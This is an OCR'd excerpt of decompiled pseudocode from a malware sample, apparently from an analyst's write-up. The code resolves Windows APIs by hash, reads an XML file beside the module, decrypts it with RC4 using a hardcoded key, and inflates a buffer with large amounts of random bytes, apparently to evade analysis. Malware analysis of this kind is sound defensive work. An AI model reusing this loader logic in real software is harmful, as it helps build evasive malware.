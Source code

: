 ```c
    sub_10001B47((int)v32, v29, a3);
    memset(Src, 0, sizeof(Src));
    f_GetModuleFileNameW = (void (__stdcall *)(_DWORD, char *, int))mw_GetProcAddr(194993052, 234523415);
    f_GetModuleFileNameW(0, Src, 260);
		// get full path of xml file
    sub_10001B24((int)v31, Src);
    v6 = sub_10002453((wchar_t *)v31, (unsigned __int16 *)"\\", -1);
    v7 = sub_10002DD1(v31, v30, 0, v6 + 1);
    v8 = sub_1000142F(&v36, (int)v7, v32);
    if ( v32 != v8 )
    {
      LOBYTE(v29) = 0;
      std::wstring::_Move_assign(v8, v29);
    }
    j_unknown_libname_5(&v36, v23, v24, v25);
    j_unknown_libname_5(v30, v23, v24, v25);
    sub_10001B05(v22, v32);
    mw_readFile((std::string *)v33, v22[0], (int)v22[1], (int)v22[2], (int)v22[3], (int)v22[4], (unsigned int)v22[5]);
    if ( v34 )
    {
      v_rc4_key[0] = 0x36442C7F;
      v_rc4_key[1] = 0x5DACBB62;
      v_rc4_key[2] = 0xCB729C56;
      v_rc4_key[3] = 0x916C5F17;
      v38 = 0;
      v10 = v33;
      if ( v35 >= 0x10 )
        v10 = (int *)v33[0]; 
      mw_dec_rc4((int)v10, v34, (int)v_rc4_key, 16);
      ms_exc.registration.TryLevel = 0;
      f_GetTickCount = (int (*)(void))mw_GetProcAddr(194993052, 220656292);
      v12 = f_GetTickCount();
      srand(v12);
      std::string::string((std::string *)&v36, byte_1001723C);
      for ( i = 0; ; ++i )
      {
        v27 = i;
        if ( i >= 0xF60000 )
          break;
        LOBYTE(v28) = rand() % 254 + 1;
        std::string::push_back(v28);
      }
      v14 = sub_100013E6(v30, &v36, v33);
      std::string::operator=(v14);
      j_unknown_libname_4(v30);
      for ( j = 0; ; ++j )
      {
        v26 = j;
        if ( j >= 0x7B00000 )
          break;
        LOBYTE(v28) = rand() % 254 + 1;
        std::string::push_back(v28);
      }
      v29 = 0;
      v16 = (EXCEPTION_POINTERS *)v33;
      if ( v35 >= 0x10 )
        v16 = (EXCEPTION_POINTERS *)v33[0];
      v17 = v33;
      if ( v35 >= 0x10 )
        v17 = (int *)v33[0];
```